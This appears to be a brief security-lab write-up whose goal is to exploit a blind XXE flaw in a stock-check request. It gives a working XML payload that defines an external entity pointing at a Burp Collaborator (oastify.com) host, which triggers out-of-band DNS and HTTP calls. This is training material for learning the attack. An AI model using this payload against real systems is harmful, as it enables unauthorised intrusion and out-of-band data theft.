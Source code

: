Target Goal - Exploit the blind XXE vulnerability and perform a DNS lookup and HTTP request to Burp Collaborator.

Analysis:
Use burp collaborator

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://tpmbil1qxfhaset3rczxf9s.oastify.com">]>

<stockCheck>
	<productId>
	&xxe;
	</productId>
	<storeId>
	1
	</storeId>
</stockCheck>